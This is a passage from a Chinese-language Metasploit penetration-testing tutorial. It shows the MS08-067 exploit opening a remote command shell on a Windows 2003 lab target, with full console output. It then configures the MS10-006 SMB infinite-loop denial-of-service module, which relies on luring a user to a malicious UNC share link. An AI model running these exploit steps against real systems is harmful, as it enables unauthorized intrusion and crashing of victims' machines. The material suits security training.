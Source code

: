 所以现在，我们的利用和有效载荷已经准备好了。下一步也是最后一步是使用`exploit`命令。让我们分析执行的结果：

```
    msf exploit(ms08_067_netapi) > exploit
    [*] Started bind handler
    [*] Automatically detecting the target...
    [*] Fingerprint: Windows 2003 SERVER - Service Pack 2 - lang:English
    [*] Selected Target: Windows 2003 Server SP2 English (AlwaysOn NX)
    [*] Attempting to trigger the vulnerability...
    [*] Sending stage (240 bytes) to 192.168.56.102
    [*] Command shell session 1 opened (192.168.56.101:43408 -> 192.168.56.102:4444) at 2011-11-02 21:25:30 +0530
    C:\WINDOWS\system32> 
    ```

太棒了！我们与目标建立了 shell 连接。这使我们可以通过命令行访问目标机器。您可以看到 Metasploit 在渗透目标机器方面有多么强大。这确实极大地简化了我们的任务。让我们快速看一下我们在这个示例中使用的利用。

## 工作原理...

该模块利用了`netapi32.dll`路径规范化代码中的解析漏洞，通过服务器服务。该模块能够绕过一些操作系统和服务包上的 NX。必须使用正确的目标来防止服务器服务（以及同一进程中的其他几个服务）崩溃。

# Windows 7/Server 2008 R2 SMB 客户端无限循环

对于 Windows 7 和 Windows Server 2008，可用的利用非常少。SMB 客户端无限循环是一种会导致系统崩溃的漏洞。这种漏洞不会提供任何会话或 shell 连接，但值得讨论。我们将在*理解 Windows DLL 注入漏洞*示例中讨论 Windows 7 中的 DLL 注入漏洞。

Microsoft Windows Server 2008 R2 和 Windows 7 中的 SMB 客户端允许远程 SMB 服务器和中间人攻击者通过 SMBv1 或 SMBv2 响应数据包导致拒绝服务（无限循环和系统挂起）。数据包包含 NetBIOS 标头中的不正确长度值或此响应数据包末尾的附加长度字段。这个不正确的标头值是漏洞的主要原因。

## 准备工作

Metasploit 包含一个辅助模块`auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop`，可以用来利用 SMB 服务器并导致拒绝服务。攻击向量通过将 UNC 路径传递到网页并要求用户执行它来工作。一旦用户打开共享文件，系统将完全崩溃，目标将被迫重新启动。

## 如何做...

要开始使用这个辅助模块，我们必须执行`use`命令以及模块的路径。然后，我们将继续设置所需的参数并执行模块。让我们继续实际实施这些步骤：

```
msf > use auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop
msf auxiliary(ms10_006_negotiate_response_loop) > show options
Module options (auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop):
Name Current Setting Required Description
---- --------------- -------- -----------
SRVHOST 0.0.0.0 yes The local host..
SRVPORT 445 yes The SMB port to listen
SSL false no Negotiate SSL..
SSLCert no Path to a custom SSL
SSLVersion SSL3 no Specify the version.. 
```

让我们快速设置各种参数。唯一要查找的参数是`SRVHOST`，即本地主机 IP 地址或渗透测试者的 IP 地址。

```
msf auxiliary(ms10_006_negotiate_response_loop) > set SRVHOST 192.168.56.101
SRVHOST => 192.168.56.101 
```

## 工作原理...

我们将使用`run`命令来执行辅助模块。一旦模块执行，它将生成一个共享文件夹链接，必须发送给目标。在这种情况下，生成的链接是`\\192.168.56.101\Shared\Anything`。

```